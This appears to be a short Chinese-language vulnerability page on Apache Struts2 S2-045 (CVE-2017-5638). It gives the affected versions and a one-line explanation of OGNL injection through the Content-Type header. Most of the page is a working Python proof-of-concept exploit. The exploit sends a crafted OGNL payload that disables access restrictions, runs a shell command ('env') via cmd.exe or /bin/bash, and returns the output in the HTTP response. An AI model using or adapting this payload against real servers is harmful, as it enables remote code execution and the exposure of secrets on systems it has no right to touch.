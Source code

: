 # S2-045 远程代码执行漏洞（CVE-2017-5638）
影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
简单的说就是在处理Content-Type的post请求的时候使用了ognl表达式注入。注意Content-Type:必须含有multipart/form-data，
## poc
```python
import requests

url = ""
headers={
    'Content-Type':'''"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}".multipart/form-data'''
}
re = requests.post(url,headers=headers)
print(re.text)
```
